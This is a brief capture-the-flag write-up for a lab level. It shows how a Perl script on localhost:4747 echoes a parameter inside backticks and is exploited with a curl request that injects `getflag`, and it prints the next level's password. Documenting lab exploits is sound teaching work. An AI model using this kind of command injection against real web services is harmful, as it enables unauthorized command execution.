 Reading the perl script, we can see `localhost:4747`.
So we may think that there is a script running at this address.
Furthermore, in the script, the line "print `echo $y 2>&1`".
If we run "./level04.pl x=`ls -l`" it will run the command ls.
Because of that, we tried to connect to localhost:4747 passing `getflag` as `x`:
curl 'localhost:4747/?x=`getflag`'
```
su level05
ne2searoevaevoem4ov4ar8ap
```
